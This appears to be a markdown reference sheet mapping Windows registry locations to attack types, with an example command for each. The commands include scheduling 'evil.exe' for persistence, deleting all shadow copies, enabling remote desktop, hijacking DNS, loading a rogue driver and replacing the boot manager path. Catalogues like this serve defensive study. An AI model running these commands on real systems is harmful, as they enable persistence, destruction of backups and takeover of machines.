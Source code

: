 ### Windows Task Scheduler Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache`  
**Attacks:** Scheduled Task Manipulation, Persistence  
**Codes:** `schtasks /create /tn EvilTask /tr evil.exe /sc daily`

### Windows System Restore Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore`  
**Attacks:** System Restore Manipulation, Evidence Tampering  
**Codes:** `vssadmin delete shadows /all`

### Windows Remote Management Control
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WSMAN`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `winrm quickconfig -q`

### Windows Remote Desktop Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0`

### Windows Remote Assistance Control
**Registry Path:** `HKLM\SOFTWARE\Policies\Microsoft\Assistance\Client\1.0`  
**Attacks:** Unauthorized Remote Access, System Control  
**Codes:** `msra /offerRA`

### Windows File Association Control
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts`  
**Attacks:** File Association Hijacking, Malware Execution  
**Codes:** `assoc .txt=evilprogid`

### Windows Network Shares Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares`  
**Attacks:** Unauthorized Network Access, Data Theft  
**Codes:** `net share EvilShare=C:\evil`

### Windows Network Settings Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services\NetBT\Parameters`  
**Attacks:** Network Manipulation, Man-in-the-Middle  
**Codes:** `netsh interface ip set dns "Local Area Connection" static 1.2.3.4`

### Windows Driver Control
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Class`  
**Attacks:** Driver Manipulation, Kernel-Level Control  
**Codes:** `pnputil /add-driver evil.inf`

### Windows Boot Control
**Registry Path:** `HKLM\BCD00000000`  
**Attacks:** Boot Manipulation, System Integrity Compromise  
**Codes:** `bcdedit /set {bootmgr} path \EFI\evil\evilmgr.efi`
